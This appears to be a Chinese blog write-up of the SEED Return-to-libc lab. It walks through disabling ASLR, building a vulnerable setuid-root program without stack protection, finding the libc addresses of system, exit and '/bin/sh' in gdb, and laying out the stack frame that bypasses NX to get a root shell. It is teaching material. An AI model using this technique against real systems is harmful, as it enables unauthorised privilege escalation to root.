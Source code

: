 ```yaml
---

layout: post

title: 'Return-to-libc'

date: '2017-02-28'

header-img: "img/home-bg.jpg"

tags:
     - 逆向
     - 二进制漏洞
author: 'De4dCr0w'

---
```


<!-- more -->

### 实验步骤 ###
（1）初始化：
  
	$ su root  
	Password: (enter root password)  
	# /sbin/sysctl -w kernel.randomize_va_space=0  
	（关闭地址随机化）  

（2）编写exploit.c 文件，溢出程序的编写：（如下图）  

![](http://i.imgur.com/OID4jIH.png)  

（3）编译exploit.c文件，生成exploit文件，执行exploit,生成badfile文件  

	$ gcc -o exploit exploit.c
	$./exploit
	// create the badfile  

（4）编译stack.c文件  

	$ su root
	Password (enter root password)
	# gcc -o retlib -z execstack -fno-stack-protector -g retlib.c
	# chmod 4755 stack
	# exit
	-z execstack : 使填写在栈内的内容能过执行
	-fno-stack-protector : 关闭栈溢出保护，使栈可以被溢出
	-g : 可调试编译，使程序能够被调试  

（5）执行retlib，获得root权限  

	$./retlib
	// launch the attack by running the vulnerable program
	# <---- Bingo! You’ve got a root shell!


### 实验过程 ###

（1）寻找system，exit，“/bin/sh”的地址  

	gdb retlib
	
	(gdb) b main
	Breakpoint 1 at 0x80484bc: file retlib.c, line 20.
	(gdb) r
	Starting program: /home/seed/Lesson1/retlib 

	Breakpoint 1, main (argc=1, argv=0xbffff414) at retlib.c:20
	20	    badfile = fopen("badfile", "r");
	(gdb) p system     （寻找调用system的地址）
	$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
	(gdb) find system,+9999999,"/bin/sh"  （寻找“/bin/sh”字符串的地址）
	0xb7f80fb8
	warning: Unable to access target memory at 0xb7fc74c0, halting search.
	1 pattern found.
	(gdb) p exit    （寻找调用exit的地址）
	$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
	(gdb) p setuid  （寻找调用setuid的地址）
	$3 = {<text variable, no debug info>} 0xb7ed8e40 <setuid>
	(gdb) 

（2）找到bof函数的返回地址，反汇编bof函数  

	(gdb) disassemble bof
	Dump of assembler code for function bof:
	0x08048484 <+0>:	push   %ebp
	0x08048485 <+1>:	mov    %esp,%ebp
   	0x08048487 <+3>:	sub    $0x28,%esp
  	0x0804848a <+6>:	lea    -0x14(%ebp),%eax
 	0x0804848d <+9>:	mov    0x8(%ebp),%edx
   	0x08048490 <+12>:	mov    %edx,0xc(%esp)
   	0x08048494 <+16>:	movl   $0x28,0x8(%esp)
   	0x0804849c <+24>:	movl   $0x1,0x4(%esp)
   	0x080484a4 <+32>:	mov    %eax,(%esp)
   	0x080484a7 <+35>:	call   0x8048380 <fread@plt>
   	0x080484ac <+40>:	mov    $0x1,%eax
   	0x080484b1 <+45>:	leave  
   	0x080484b2 <+46>:	ret    
	End of assembler dump.

　　这里eax（-0x14(%ebp)）存的是buffer[0]的地址，且0x14 = 20,说明ebp和buffer[0]的地址相差20个字节，所以跳转地址就应该填在buffer[24]~buffer[27]的位置，所以只要把system的调用地址填在这，就可以跳转去执行system函数了，然后依次去执行exit函数(buffer[28]~buffer[31])  

#### 这里”/bin/sh” 为什么放在 exit  函数后面？ ####
解答：

	0x080484b1 <+45>: leave  

相当于语句:  

	pop %ebp
	mov %ebp, %esp

然后执行：  

	0x080484b2 <+46>: ret 
	This instruction simply pops the return address out of the stack, 
	and then jump to the return address. 

leave 指令 pop ebp后栈内 esp 指向 return address，ret 指令跳转到 system()，执行system函数时，先push函数参数再执行call，而call的时候会将返回地址push到栈上，所以我们在构建栈帧的时候，system函数的地址与参数的地址之间需要填充一个虚构的返回函数，这里我们填充exit函数地址。

![](http://i.imgur.com/5O4z4dx.png)

（图为网上一道pwn题的思路，可以帮助理解，和本实验的地址不一样）

我们可以利用Return-to-libc的方法构建栈帧绕过NX选项：   
　　NX即No-eXecute（不可执行）的意思，NX选项会将进程特殊区域的内存标记为不可执行，当CPU跳转到这些区域执行代码的时候便会产生异常，以阻止缓冲区溢出时直接在栈上执行恶意代码。  
　　gcc编译器默认开启了NX选项，如果需要关闭NX选项，可以给gcc编译器添加-z execstack参数。在Windows下，类似的概念为DEP（Data Execution Prevention，数据执行保护），在最新版的Visual Studio中默认开启了DEP编译选项

我们可以使用checksec.sh脚本可以方便的查看可执行程序是否启用了NX，checksec脚本的下载地址为：[http://www.trapkit.de/tools/checksec.sh](http://www.trapkit.de/tools/checksec.sh "checksec脚本")  

实验地址：[http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Return_to_libc/](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Return_to_libc/ "实验地址")
